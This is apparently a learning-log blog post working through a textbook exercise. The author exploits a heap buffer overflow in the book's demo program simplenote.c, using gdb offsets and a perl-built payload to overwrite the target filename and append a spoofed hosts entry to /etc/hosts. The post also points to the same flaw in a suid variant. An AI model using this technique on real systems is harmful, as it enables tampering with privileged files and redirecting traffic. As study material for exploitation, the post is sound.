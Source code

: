 ```yaml
---
layout: post
title: AoE log entry 3
---
```


So, last time we were trying to use a heap-based buffer overflow to overwrite the filename that simplenote.c writes to. The same string we overflow the buffer with will be written into that file. simplenote.c appends to the file, so this exploit should be useful for adding a line to a file you're not really supposed to write to.

Mind you, simplenote.c is the single-user version of AoE's notetaking demo program, so it isn't an suid binary, and you can't write to anything you wouldn't already have write access to. However, the book has a multi-user suid version, notetaker.c, that has the same vulnerability (spoiler, I looked ahead). What I learn here can be applied there for great mayhem.

How I think it'll work:
`./simplenote <100+ characters of stuff><file/path>`
This appends `<100+ chars of stuff><filepath>` to `file/path`. Depending on what you're writing to and whether it can tolerate a filename at the end of the line, you could put the appropriate comment delimiter at the end of the chars of stuff. e.g.
`./simplenote 'sketchy.ip.address www.facebook.com # <random junk padding to overflow> /etc/hosts'`

The trick here is to pad just enough to align /etc/hosts with the datafile buffer on the heap.

So we were approximately here:
```
(gdb) p buffer
$3 = 0x555555757010 'A' <repeats 200 times>...
(gdb) p datafile
$4 = 0x555555757080 'A' <repeats 152 times>
```
I wondered why there are 200 A's in buffer and 152 in datafile, when buffer should be 100 bytes long. I think I figured it out. The `...` means there are more than 200 A's. Perhaps gdb only mentions the first 200. If you look at the last two digits of the addresses, you'll see they're definitelymore than 48 bytes apart.
```
(gdb) p $4 - $3
$5 = 112
```
You'll note 112 = 7*16. 0x80 - 0x10 = 0x70 = 7*16.
So I gotta construct a 112-long string. `sketchy.ip.address www.facebook.com # ` is 39 characters. 112 - 39 = 73.
```
echo 'sketchy.ip.address www.facebook.com # ' | wc -c -
39 -
./a.out "$(perl -e 'print "sketchy.ip.address www.facebook.com # " . "A"x73 . "/etc/hosts/"')"
[DEBUG] buffer   @ 0x55734621a010: 'sketchy.ip.address www.facebook.com # AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/etc/hosts/'
[DEBUG] datafile @ 0x55734621a080: 'etc/hosts/'
[!!] Fatal Error in main() while opening file: No such file or directory
```
Whoops. Off by one error. But that doesn't seem right... Did I get the length of my sketchy ip string wrong?
```
./a.out $(perl -e 'print "A"x112')
[DEBUG] buffer   @ 0x55829d007010: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[DEBUG] datafile @ 0x55829d007080: ''
```
See, writing 112 chars wipes out the datafile with the null terminator. So whatever comes after those 112 chars should be written to datafile. Hrm.
